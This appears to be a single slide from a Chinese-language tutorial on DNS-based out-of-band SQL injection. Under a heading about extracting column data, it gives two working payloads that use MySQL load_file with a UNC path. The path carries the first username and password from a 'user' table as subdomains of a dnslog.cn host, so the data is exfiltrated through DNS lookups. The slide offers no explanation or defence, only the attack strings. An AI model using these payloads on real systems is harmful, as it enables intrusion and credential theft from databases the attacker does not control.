

# dns注入列数据
列数据
and if((select load_file(concat('\\\\',(select username from user limit 0,1),'.7dluss.dnslog.cn\\abc'))),1,1)--+

and if((select load_file(concat('\\\\',(select password from user limit 0,1),'.7dluss.dnslog.cn\\abc'))),1,1)--+